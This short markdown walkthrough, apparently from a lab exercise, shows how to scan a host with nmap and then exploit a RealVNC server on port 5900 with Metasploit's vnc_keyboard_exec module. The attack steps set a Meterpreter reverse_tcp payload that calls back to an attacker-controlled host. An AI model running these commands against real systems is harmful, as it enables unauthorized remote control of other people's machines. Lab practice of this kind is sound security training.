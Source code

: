 # Remote Exploitation

Exploit a vulnerable version of RealVNC Server. The service is running on port 5900 after running simple SYN scan using nmap to find which services the machine exposes

> nmap -sS 192.168.x.x --script=smb-os-discovery

![image](https://user-images.githubusercontent.com/73122852/232347610-9b336a53-1be2-49e8-abb3-d007c63a6265.png)
 
As we can see , The one we'll try to target is VNC running on port 5900

* Exploitation Flow

> use exploit/multi/vnc/vnc_keyboard_exec

> set RHOST 192.168.x.x

> set PASSWORD password

> set PAYLOAD windows/meterpreter/reverse_tcp

> set LHOST 192.168.x2.x2

> exploit
